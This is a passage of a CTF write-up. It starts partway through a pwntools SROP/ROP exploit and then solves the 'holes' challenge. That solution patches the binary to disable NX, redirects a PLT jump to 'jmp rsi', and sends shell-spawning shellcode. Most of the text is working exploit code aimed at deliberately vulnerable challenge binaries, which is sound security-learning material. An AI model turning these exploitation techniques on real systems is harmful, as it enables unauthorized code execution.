# =========================================================
#                          SETUP                         
# =========================================================
exe = './chal'
elf = context.binary = ELF(exe, checksec=True)
rop = ROP(elf)
libc = '/usr/lib/x86_64-linux-gnu/libc.so.6'

libc = ELF(libc, checksec=False)
# rop2 = ROP(libc)

context.log_level = 'info'
context.terminal = ["tmux", "splitw", "-h"]
host, port = 'u-get-me-write.k17.kctf.cloud', 1337

def initialize(argv=[]):
	if args.GDB:
		return gdb.debug([exe] + argv, gdbscript=gdbscript)
	elif args.RM:
		return remote(host, port)
	else:
		return process([exe] + argv)

gdbscript = '''
b *0x40115c
c
'''.format(**locals())

def exploit():
	global r
	writeable_mem = 0x4040b0

	POP_RBP = rop.find_gadget(["pop rbp", "ret"])[0]
	POP_RSI = rop.find_gadget(["pop rsi", "ret"])[0]
	RET = rop.find_gadget(["ret"])[0]

	r = initialize()
	payload = b"A" * 20
	payload += p64(POP_RSI)
	payload += p64(writeable_mem)
	payload += p64(elf.sym['read'])
	payload += p64(elf.sym['_start'])
	r.sendline(payload)
	pause()

	# fake frame
	frame1 = SigreturnFrame()
	frame1.rax = constants.SYS_execve
	frame1.rdi = writeable_mem
	frame1.rsi = 0
	frame1.rdx = 0
	frame1.rip = 0x401040

	payload = b"/bin/sh\x00" # rbp
	payload += p64(0x401040) # rbp+0x8 == rip
	payload += bytes(frame1) # rbp+0x10
	r.sendline(payload)

	# overwrite GOT
	payload = b"A"*20
	payload += p64(RET)
	payload += p64(POP_RSI)
	payload += p64(elf.got['read'])
	payload += p64(elf.plt['read'])
	
	# setting up RBP
	payload += p64(POP_RBP)
	payload += p64(writeable_mem)
	payload += p64(0x401164)  # mov eax, 0xf

	r.sendline(payload)
	pause()
	# send one byte syscall address 
	r.send(b"\x5f")
	
	r.interactive()
	
if __name__ == '__main__':
	exploit()
```

<figure><figcaption></figcaption></figure>

## holes (483 pts)

### Description

The worms have begun digging again. docker image is ubuntu:24.04

Note: Use the remote! The provided binary is only part of the challenge.

### Solution

Given executatble with following protection

```yaml
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

In this challenge we're given a service that can overwrite 2 bytes from the whole executable. During competition we focus on overwriting the code and ended up not being able to craft exploit with our defined vulnerability which is string format vulnerability.

After competition, we found that some team solved it by disabling NX. So let's try to reproduce it

Disabling NX only need 1 byte, so we have another 1 byte that can be used. Let's find the suitable code to make this challenge become a ret2shellcode challenge.

```nasm
.text:0000000000001206                 mov     rdx, cs:stdin@@GLIBC_2_2_5 ; stream
.text:000000000000120D                 lea     rax, [rbp+s]
.text:0000000000001211                 mov     esi, 40h ; '@'  ; n
.text:0000000000001216                 mov     rdi, rax        ; s
.text:0000000000001219                 call    _fgets
.text:000000000000121E                 lea     rax, [rbp+s]
.text:0000000000001222                 mov     rsi, rax
.text:0000000000001225                 lea     rdi, format     ; "Hello %s"
.text:000000000000122C                 mov     eax, 0
.text:0000000000001231                 call    _printf
```

Our input stored in rbp+s, so if we take a look on code after \_fgets there is only one function that process rbp+s which is printf. Knowing this information so we can try to modify code to either jmp rsi or jmp rax before mov eax, 0.

Before mov eax, 0 looks like there is no instruction that can be changed to jmp eax or jmp rsi. So let's take a look on \_printf.&#x20;

```nasm
.plt.sec:00000000000010B0 _printf         proc near               ; CODE XREF: main+68↓p
.plt.sec:00000000000010B0                 endbr64
.plt.sec:00000000000010B4                 bnd jmp cs:printf_ptr
.plt.sec:00000000000010B4 _printf         endp
```

Basically we can see that there is jmp, let's check if it is possible to modify it to jmp rsi.

```
bnd jmp cs:printf_ptr -> f2 ff 25 05 2f 00 00
bnd jmp rsi -> f2 ff e6
```

Looks like it is suitable, so we can modify 0x25 to 0xe6. Now let's create our exploit and patch plan.&#x20;

First, modify STACK flags to 7 to make it executable.

<figure><figcaption></figcaption></figure>

Second, change jmp cs:printf\_ptr to jmp rsi. Following is patch code for local binary

```python
f = open("binary", "rb").read()

tmp = list(f)

target = bytes.fromhex("51E5746406000000000000000000000000000000000000000000000000000000000000000000000000000000000000001000000000000000")
index = f.index(target)
tmp[index + 4] = 0x7

target = bytes.fromhex("F30F1EFAF2FF25052F0000")
index = f.index(target)
tmp[index + 6] = 0xe6

out = open("patched", "wb")
out.write(bytes(tmp))
```

Last, we just need to send shellcode to the binary to gain RCE.

```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './patched'
elf = context.binary = ELF(exe, checksec=True)
rop = ROP(elf)
libc = '/usr/lib/x86_64-linux-gnu/libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'info'
context.terminal = ["tmux", "splitw", "-h"]
context.arch = 'amd64'
host, port = 'challenge.secso.cc', 8002

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.RM:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
pie b 0x122c
c
'''.format(**locals())

def exploit():
    global r
    r = initialize()
    shellcode = asm(shellcraft.sh())
    assert len(shellcode) <= 64 
    payload = shellcode
    payload += b"\x90" * (64 - len(payload))
    r.recvuntil(b"name?")
    r.sendline(payload)
    r.interactive()
    
if __name__ == '__main__':
    exploit()
```

<figure><figcaption></figcaption></figure>
